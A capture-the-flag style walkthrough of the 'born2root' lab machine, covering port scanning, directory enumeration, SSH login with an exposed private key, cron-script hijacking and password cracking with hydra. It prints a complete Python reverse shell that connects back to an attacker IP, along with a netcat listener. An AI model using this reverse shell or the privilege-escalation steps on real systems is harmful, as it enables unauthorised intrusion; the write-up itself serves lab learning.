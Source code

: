 # Reconnaisance

Okay, here we go. Scanning all of the ports revealed the following:
`nmap -p- -T4 -Pn -oN nmap/initial born2root`
```
Nmap scan report for born2root (192.168.1.7)
Host is up (0.034s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
48777/tcp open  unknown
```
Let's have a closer look at these.
`nmap -p 111,48777,22,80 -sC -sV -O -T4 -Pn -oN nmap/all_ports born2root`
```
Nmap scan report for born2root (192.168.1.7)
Host is up (0.0072s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-robots.txt: 2 disallowed entries
|_/wordpress-blog /files
|_http-title:  Secretsec Company
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34283/udp   status
|   100024  1          43795/udp6  status
|   100024  1          48777/tcp   status
|_  100024  1          53482/tcp6  status
48777/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:FB:C3:3C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The report reveals something about the service running at port `80`. And
apparently, the page at `/wordpress-blog` contained all the secrets no just
kidding it just had the picture of a troll face.
However, the home page does give me a few names under the "About Us" header:
```
Martin N
Hadi M
Jimmy S
```
Furthermore, there's is also a "Contact Us" header with the
"martin@secretsec.com" email address. Could potentially be useful.

Perhaps, enumeration is the key here.

# Enumeration
Let's just go full `gobuster` on this thing.
```
gobuster dir \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-u http://born2root -t 40
```
And `gobuster` immediately found an extra `/icons` directory that I hadn't known
about. Loading up that location led me to find a file named `VDSoyuAXiO.txt`.
Pretty weird name, but it apparently contained an RSA private key.

# Getting In

The email address we saw earlier had been a hint for the username. Now all we
need to do is use that key to login as the `martin` user.
`ssh -o PubkeyAcceptedAlgorithms=+ssh-rsa -i id_rsa -l martin born2root`

And it asked me for another password.

```
READY TO ACCESS THE SECRET LAB ?

secret password :
```

The fact that it asks for a **secret** password tells my gut that it's some
silly common password. I just tried hitting the Enter key and apparently that
gave me a shell. I guess the password prompt was just a gimmick.

# Privilege Escalation

After logging in, I decided to check a few files that I could find.

```
martin@debian:~$ cat .bash_history
nano /var/tmp/login.py
nano .bashrc
ls
ls -ah
sudo su
exit
nano /var/tmp/login.py
clear
nano /var/tmp/login.py
su root
ls
su root
clear
su root
clear
cd /var/www/html/icons/
ls
mv VdXAsOKisAOIO.txt.png key.txt.png
su root
su roo
su root
exit
ls
su root
exit
```

I checked the `/var/tmp/login.py` file and it had the "secret passwords" in it
and apparently no matter what you typed, the password would've been valid.

I checked to see if there were any interesting configuration files. I saw the
crontab entries and decided to have a look.

`cat /etc/crontab`

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5   * * * *   jimmy   python /tmp/sekurity.py
```

And interestingly a cronjob had been there. I just fetched a reverse shell from
[[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md|PayloadAllTheThings]]:

```python
import socket
import os
import pty


# create a socket
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);

# use that socket to connect to my attacker machine
s.connect(("192.168.49.154",1234));

# duplicate the socket's file descriptor to be stdin, stdout and stderr
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

# spawn a shell
pty.spawn("/bin/sh")
```

Put that in `/tmp/sekurity.py` and now I just have to listen to incoming
connections with `netcat`:

`nc -lvp 1234`

I get a reverse shell eventually and now I am the user `jimmy`. I see a SUID
binary named `networker`. I run it and get some output:
```
*** Networker 2.0 ***
eth0      Link encap:Ethernet  HWaddr 00:50:56:ba:44:9c
          inet addr:192.168.154.49  Bcast:192.168.154.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feba:449c/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1305 errors:0 dropped:0 overruns:0 frame:0
          TX packets:946 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:122788 (119.9 KiB)  TX bytes:854022 (834.0 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:5 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:448 (448.0 B)  TX bytes:448 (448.0 B)

PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.018 ms

--- localhost ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.018/0.018/0.018/0.000 ms
Done
echo linux tool version 5
```

After failing to use that binary to my advantages, I ultimately decided to give
up. I noticed there was another user on the system, `hadi`, perhaps I should try
to crack his password. I know I'm supposed to do it using `hydra` but I will
require a smaller wordlist since something like `rockyou.txt` is going to take
forever. I decided to check if the `rockyou.txt` wordlist had any passwords with
the word `hadi` in it and apparently there were some. I decided to try my luck
with those matched entries.
{{file:./hydra.png}}

And success! Although I didn't expect it to, but it did work. Now I can ssh
login as `hadi` on that machine. I tried running `su` with the same password and
apparently it worked as well. So that's how the root flag was discovered. A lot
of rabbit holes, but apparently enumeration _was_ the key here.
